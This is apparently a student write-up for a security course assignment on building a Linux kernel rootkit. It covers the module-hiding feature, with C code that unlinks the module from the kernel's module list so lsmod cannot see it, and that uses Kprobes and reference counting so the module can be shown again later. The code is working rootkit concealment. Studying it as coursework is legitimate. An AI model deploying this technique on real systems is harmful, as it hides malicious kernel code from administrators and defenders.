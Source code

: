 # SSDI Assignment 1 Write Up

## Hide/Unhide Module (10%)

### Idea

The Linux kernel maintains a list of all loaded modules, which can be displayed using the `lsmod` command. To prevent `lsmod` from revealing the rootkit, we remove the rootkit from the module list.

### Implementation

The macro `THIS_MODULE`, defined in `<linux/export.h>`, provides a pointer to the current module. It is of type `struct module`, which is defined in `<linux/module.h>`:

```c
struct module {

    /* Member of list of modules */
    struct list_head list;

    /* Unique handle for this module */
    char name[MODULE_NAME_LEN];
    
    /* ... */
};
```

This structure contains the list node `list`, which links the module into the module list. By removing the rootkit from this list, we hide it, and by reinserting it, we make it visible again. We use Kprobes to obtain the module list head, allowing us to reinsert the rootkit later. 

We can not store references to the previous or next module when removing the rootkit, as they may be removed while the rootkit is hidden, preventing reinsertion. 

Additionally, we must call `try_module_get()` before removing the rootkit to prevent it from being unloaded. Otherwise, the kernel may automatically unload it. After reinserting, we call `module_put()` to allow it to be removed properly.

```c
static bool module_hidden = false;
struct list_head *modules = NULL; // Obtained via kprobe

static void toggle_module_visibility(void) {
    if (!module_hidden) {
        try_module_get(THIS_MODULE); // Prevent unloading
        // Hide module: remove from list
        list_del(&THIS_MODULE->list);
        module_hidden = true;
        
        printk(KERN_INFO "Module hidden\n");
    } else {
        list_add_tail(&THIS_MODULE->list, modules);
        module_hidden = false;
        module_put(THIS_MODULE); // Balance reference count

        printk(KERN_INFO "Module unhidden\n");
    }
}
```
